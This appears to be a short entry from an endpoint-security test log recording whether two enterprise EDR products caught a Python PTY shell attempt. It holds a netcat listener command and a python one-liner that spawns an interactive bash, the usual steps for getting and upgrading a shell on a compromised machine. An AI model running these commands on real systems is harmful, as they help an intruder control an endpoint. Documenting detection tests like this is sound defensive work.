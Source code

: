 **Detections**
* Enterprise EDR Solution 1: No
* Enterprise EDR Solution 2: Yes (Blocked)

Attempted a shell using the python PTY module which lets you spawn a psuedo-terminal that can fool commands like su into thinking they are being executed in a proper terminal.

Ran the following on my VM 

`nc -lvp 1234`

Ran the following on our endpoint

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

